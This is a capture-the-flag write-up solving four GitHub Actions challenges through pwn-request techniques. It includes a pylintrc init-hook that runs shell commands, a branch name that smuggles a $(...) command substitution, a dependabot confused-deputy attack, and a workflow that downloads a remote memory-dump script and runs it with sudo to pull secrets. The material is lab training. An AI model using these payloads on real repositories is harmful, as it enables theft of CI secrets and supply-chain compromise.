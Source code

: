 # D-8 GitHub Workflows

## Write-up

Start by accepting the invitation and fork the repository.

### Bangladesh

Open an issue with the following title: `$FLAG [Eval]`. Go to the log of the action run and download the artifact. 
It contains the flag.

Doc: https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/ and https://docs.github.com/en/actions/reference/security/secure-use#good-practices-for-mitigating-script-injection-attacks

### Egypt

Create a new branch and add a pylintrc file.
Since [pylint](https://boostsecurityio.github.io/lotp/tool/pylint) is used with untrusted data, we can use the priority of file and add `pylintrc` with this content.
Since the version in main is pull_request, it is not vulnerable. We need to target the version in `dev` branch. 
Open a PR with a title (containing `[Lint]`) targeting dev.
The flag will be in double base64 encoding in the 'Lint with pylint' step of the logs.

`pylintrc`

```py
[MAIN]
init-hook=__import__("os").system("echo $FLAG|base64|base64")
```

Doc: https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/ and https://boostsecurityio.github.io/lotp/tool/pylint

### Indonesia
    
A confused deputy attack using `dependabot[bot]` and injection on the head.ref.

1. Create a new branch with a payload name: a/-$(echo${IFS}$FLAG|base64|base64)
2. Change the default branch to this branch
3. Add an old dependency. e.g. go.mod:
4. Add a `.github/dependabot.yml` file with following content:
5. Activate actions in Actions tab.
6. Activate dependabot: https://github.com/OWNER/REPO/settings/security_analysis. Dependabot versions updates.
7. Wait for dependabot pull request creation.
8. Open a PR from the payload branch to the main of the upstream repository.
9. comment `@dependabot merge` on dependabot pull request
10. The flag is double base64 encoded in the log.

```golang
module pwn

go 1.22.7

toolchain go1.23.0

require (
	golang.org/x/text v0.20.0
)
```

```yaml
version: 2
updates:
  - package-ecosystem: "gomod"
    directory: "/"
    schedule:
      interval: "daily"
```
   
PS: You can force trigger dependabot scanning in Insights > Dependency Graph > Dependabot > Recent update jobs 

Doc: https://boostsecurity.io/blog/weaponizing-dependabot-pwn-request-at-its-finest and https://www.youtube.com/live/HWTzuNH6y_M?si=ue7NfeMuPg4s_w04

### Iran

It is a workflow_run with no branches defined, so it runs on workflows with the specified name even from fork if the fork
uses pull_request.

To exploit, modify the "PR Information" workflow to upload our payload as an artifact. There is an injection on the output of additions.
The flag is in memory, we need a way to extract the secrets from the memory. We can use AdnaneKhan [memdump.py](https://github.com/AdnaneKhan/Cacheract/blob/584b64cd827565059ede9daf19337df915a0b7f8/assets/memdump.py).
Dump the result and grep the flag out.

```yaml
name: PR Information
on:
  pull_request:

jobs:
  artifact_1:
    runs-on: ubuntu-latest
    steps:
      - name: Generate PR details
        id: pr_details
        run: |
          echo " \
          ### PR Details \
          * **Author**: @attacker \
          * **Commits**: 1 \
          * **Changes**: 2 files \
          * **Additions**: \"\$(curl -sL https://raw.githubusercontent.com/AdnaneKhan/Cacheract/584b64cd827565059ede9daf19337df915a0b7f8/assets/memdump.py | sudo python3 | tr -d '\0' | strings | grep flag-iran | base64 -w 0 | base64 -w 0)\" \
          * **Deletions**: \"3\" \
          " > pr_details.md 
      - name: Upload
        uses: actions/upload-artifact@v4
        with:
          name: pr-details
          path: .
```

Doc: https://securitylab.github.com/resources/github-actions-new-patterns-and-mitigations/

